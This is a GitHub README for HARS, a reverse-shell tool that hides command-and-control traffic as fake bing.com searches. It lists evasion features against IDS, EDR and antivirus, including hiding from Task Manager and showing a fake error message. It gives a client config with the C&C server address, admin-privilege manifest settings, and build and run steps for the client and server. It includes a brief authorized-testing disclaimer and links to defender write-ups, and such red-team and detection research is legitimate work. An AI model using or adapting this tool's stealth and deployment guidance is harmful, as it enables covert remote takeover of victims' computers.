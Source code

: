 # HTTP/S Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

### Why ? 
<a name="intro"></a>

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect those attacks. Most of the time the connection to a reverse shell is established through a L4 TCP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. The HTTP protocol (Layer 7) is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

The particularity of this POC is that the communication is completely asynchronous, and it only uses GET requests.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then:  
-The client queries the server until it gets instructions.\
-The attacker provides instructions to the server.\
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

### Features 
<a name="features"></a>

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. [Optional] SSL support; by default it is a fake bing.com certificate.
5. Random delay between each client call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. [Optional] The client can display a fake error message at startup.
10. The client is hidden from tasks manager.
11. [Optional] The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

### Demonstration
<a name="demo"></a>

**Client side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

**Server side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

### Configuration
<a name="config"></a>

**Client : C Sharp**

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            /* Behavior */
            // Display a fake error msg at startup
            public static bool DisplayErrorMsg = true;
            // Title of fake error msg
            public static string ErrorMsgTitle = "This application could not be started.";
            // Description of fake error msg
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            // Min delay between the client calls
            public static int MinDelay = 2;
            // Max delay between the client calls
            public static int MaxDelay = 5;
            // Fake uri requested - Warning : it must begin with "search" (or need a change on server side)
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            /* Listener */
            // Hostname/IP of C&C server
            public static string Server = "https://127.0.0.1";
            // Listening port of C&C server
            public static string Port = "443";
            // Allow self-signed or "unsecure" certificates - Warning : often needed in corporate environment using proxy
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  

With  
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`  
or  
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`  

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is set to 4.6 which is available by default in Windows 10.    
*For Windows 7, choose .NET 3.5 if you don't want to have to install missing features.*

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

**Server : Python**

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes

-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`\  
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

#### Review

A good review from the defender side by Lee Kirkpatric : https://community.rsa.com/community/products/netwitness/blog/2020/04/01/using-rsa-netwitness-to-detect-http-asynchronous-reverse-shell-hars  
Another deep analysis from Nasreddine Bencherchali : https://nasbench.medium.com/understanding-detecting-c2-frameworks-hars-682b30f0505c
Ty Guys  
#BlueTeam  

------------
@onSec-fr
